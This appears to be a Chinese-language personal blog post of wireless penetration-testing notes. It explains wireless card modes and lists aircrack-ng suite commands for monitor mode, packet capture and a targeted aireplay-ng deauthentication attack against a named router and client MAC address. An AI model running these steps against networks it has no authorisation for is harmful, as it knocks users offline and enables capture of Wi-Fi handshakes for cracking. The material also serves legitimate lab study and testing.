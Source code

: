 ```yaml
---
title: "无线渗透笔记"
date: 2019-07-14 23:51:41
urlname: wireless-pentest-note
categories: 信息安全
tags:
  - Wireless
  - Kali Linux
  - Pentest
---
```


{% noteblock quote cyan %}

使用 Aircrack-ng 套件进行无线攻击测试。

{% endnoteblock %}

<!-- more -->

## 无线监听

### 技术原理

#### 无线网卡的四种工作模式

- Managed：用于设备与 AP 直接连接， **无线网卡的驱动程序依赖无线 AP 管理整个通信过程。**

- Ad hoc：当你的网络由**互相直连的设备组成**时，就使用这个模式。在这个模式中，无线通信双方共同承担 WAP 的职责。

- Master：主模式，允许无线网卡使用特制的驱动程序和软件工作，作为其他设备的 WAP。

- Monitor：监听模式，停止收发数据，监听无线数据包。

### 执行步骤

#### 切换为监听模式

- 启动 Airmon-ng：

  ```shell
  iwconfig
  airmon-ng start wlx70f11c280f23 # airmon-ng start wlan0
  ```

- 关闭 Network Manager：

  ```shell
  service network-manager stop
  ```

- 开启 Network Manager：

  ```shell
  service network-manager restart
  ```

#### 开启监听

- 使用 Airodump-ng：

  ```shell
  airodump-ng wlan0mon
  ```

#### 捕获数据

- Wireshark：选择监听网卡捕获数据

- Airodump-ng：

  ```shell
  airodump-ng -c 1 wlan0mon -w data # -c 信道 -w 输出目录名
  ```

## WiFi Crack

### 开启监听

```shell
airmon-ng start wlan0
```

### 扫描信号

```shell
airodump-ng wlan0mon
```

### 选定 Wi-Fi 监听

```shell
airodump-ng wlan0mon -c 11 --bssid BC:46:99:3D:66:D6 -w doc # -w 指定生成的文件名 -c 指定信道 --bssid 指定路由器的 MAC 地址
```

### 攻击

```shell
aireplay-ng -0 50 -a E2:A5:3E:6B:F7:21 -c 44:C3:46:40:7E:5D   wlan0mon # -0 指定发包的数量 -a 指定路由器的MAC地址  -c 指定连接的客户端的 MAC 地址
```
